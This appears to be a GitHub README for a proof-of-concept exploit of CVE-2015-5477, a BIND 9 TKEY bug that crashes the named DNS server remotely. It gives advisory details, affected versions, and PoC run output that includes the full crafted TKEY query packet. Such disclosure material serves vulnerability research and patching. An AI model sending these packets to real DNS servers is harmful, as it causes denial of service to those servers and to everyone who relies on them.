 CVE-2015-5477 - An error in handling TKEY queries can cause named to exit with a REQUIRE assertion failure
==========================================================================================================

Overview
--------

	cvss    :  7.8 (AV:N/AC:L/Au:N/C:N/I:N/A:C) base  
	
	vendor  :  ISC Bind 
	product :  BIND   
	versions affected:   < 9.9.7-P2
                         < 9.10.2-P3
						
	exploitability :
				* remotely exploitable
				* NO authentication required
				* NO user interaction required
				* NO special configuration required (default settings)
				** NO configuration workaround
				
Abstract
---------
 
For more information see original advisory: https://kb.isc.org/article/AA-01272


Proof of Concept (PoC)
----------------------

```python

    # python cve-2015-5477/poc_cve-2015-5477.py  <target>
    [ ] CVE-2015-5477 BIND 9 PoC
    [i] target: <target>
     [+] sending DNSQ TKEY with additional record ...
     [!] pkt sent!


    # python cve-2015-5477/poc_cve-2015-5477.py  <target> --debug
    [ ] CVE-2015-5477 BIND 9 PoC
    [i] target: <target>
     [+] sending DNSQ TKEY with additional record ...
    ###[ DNS ]###
      id        = 0
      qr        = 0
      opcode    = QUERY
      aa        = 0
      tc        = 0
      rd        = 1
      ra        = 0
      z         = 0
      ad        = 0
      cd        = 0
      rcode     = ok
      qdcount   = 1
      ancount   = 0
      nscount   = 0
      arcount   = 1
      \qd        \
       |###[ DNS Question Record ]###
       |  qname     = '.'
       |  qtype     = 249
       |  qclass    = ANY
      an        = None
      ns        = None
      ar        = None
    ###[ DNS Resource Record ]###
         rrname    = '.'
         type      = TXT
         rclass    = ANY
         ttl       = 0
         rdlen     = 2
         rdata     = 'x'
    .
    Sent 1 packets.
     [!] pkt sent!
```
	
Contact
--------
	tintinweb - https://github.com/tintinweb/pub/tree/master/pocs/cve-2015-5477
	
	
(0x721427D8)
